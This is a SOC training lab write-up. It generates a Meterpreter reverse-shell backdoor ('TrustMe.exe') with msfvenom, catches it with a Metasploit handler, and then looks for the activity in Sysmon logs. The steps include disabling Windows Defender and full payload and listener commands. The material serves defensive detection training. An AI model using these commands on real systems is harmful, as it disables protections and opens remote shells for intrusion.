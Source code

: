 ```yaml
---
tags:
  - sysmon
  - live-windows-forensics
  - lab-soc-core-skills
date: Feb 09, 2024
---
```


## Sysmon

> _Disclaimer: The content, procedures, and materials provided in this lab are strictly for educational purposes. Any information acquired is intended solely for advancing knowledge in cybersecurity. All procedures outlined in this lab, along with the VM utilized, were developed and acquired from the [SOC Core Skills](https://www.antisyphontraining.com/on-demand-courses/soc-core-skills-w-john-strand/) course instructed by [John Strand](https://www.sans.org/profiles/john-strand/). It is emphasized that the knowledge gained here will not be applied for any unauthorized or malicious activities._

> In this lab, we initiated a simple backdoor and backdoor listener while leveraging a Metasploit Handler. The primary focus was on utilizing Sysmon to detect potential threats. Sysmon, a powerful system monitoring tool, aids SOC analysts by tracking various system activities such as process creation, network connections, and file modifications. Through Sysmon logs analysis, SOC teams can swiftly identify suspicious behavior, particularly those associated with backdoors or malicious activity. This hands-on exercise not only strengthens understanding of backdoor threats but also equips SOC analysts with practical skills in leveraging Sysmon for enhanced threat detection and response capabilities.

---
First, let’s disable Defender. Simply run the following from an Administrator PowerShell prompt:

`Set-MpPreference -DisableRealtimeMonitoring $true`

This will disable Defender for this session.

If you get angry red errors, that is Ok, it means Defender is not running.

Next, let’s start up the ADHD Linux system and set up our malware and C2 listener: 

Let's get started by opening a Terminal as Administrator

![](_attachments/Pasted%20image%2020240211032106.png)

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

![](_attachments/Pasted%20image%2020240211032132.png)

On your Linux system, please run the following command:

$`ifconfig`

![](_attachments/Pasted%20image%2020240211032151.png)

Please note the IP address of your Ethernet adapter.  

Please note that my adaptor is called eth0 and my IP address is 172.17.32.119.   

Your IP Address and adapter name may be different.


Now, run the following commands to start a simple backdoor and backdoor listener: 
 

 `sudo su -`
Please note, the adhd password is adhd.

`msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<YOUR LINUX IP> lport=4444 
-f exe -o /tmp/TrustMe.exe`

![](_attachments/Pasted%20image%2020240211032210.png)

`cd /tmp`

`ls -l TrustMe.exe`

`cp ./TrustMe.exe /mnt/c/tools`

![](_attachments/Pasted%20image%2020240211032227.png)


Now, let's start the Metasploit Handler.  First, open a new Ubuntu Terminal by clicking the down carrot then selecting Ubuntu-18.04.

Let's become root.

`sudo su -`


root@DESKTOP-I1T2G01:/tmp# `msfconsole -q`

msf5 > `use exploit/multi/handler`

msf5 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`

PAYLOAD => windows/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > `set LHOST 172.26.19.133`

Remember, your IP will be different!

msf5 exploit(multi/handler) > `exploit`


It should look like this:

![](_attachments/Pasted%20image%2020240211032248.png)

Now, we will need to open an cmd.exe terminal as Administrator.

When you get the pop up select Yes.

Next, to open a Command Prompt Window, select the Down Carrot ! and then select Command Prompt.

Then, type the following:



C:\Windows\system32>`cd \Tools`

C:\Tools>`Sysmon64.exe -accepteula -i sysmonconfig-export.xml`


It should look like this:

![](_attachments/Pasted%20image%2020240211032313.png)


let's run the following commands to run the TrustMe.exe file.

`cd \tools`
 
 `TrustMe.exe`


Back at your Ubuntu prompt, you should have a metasploit session!

![](_attachments/Pasted%20image%2020240211032334.png)


Now, we need to view the Sysmon events for this malware:

You will select Event Viewer > Applications and Services Logs > Windows > Sysmon > Operational

![](_attachments/Pasted%20image%2020240211032419.png)

![](_attachments/Pasted%20image%2020240211032439.png)


Start at the top and work down through the logs, you should see your malware executing.  Please note your paths may be different.

![](_attachments/Pasted%20image%2020240211032508.png)
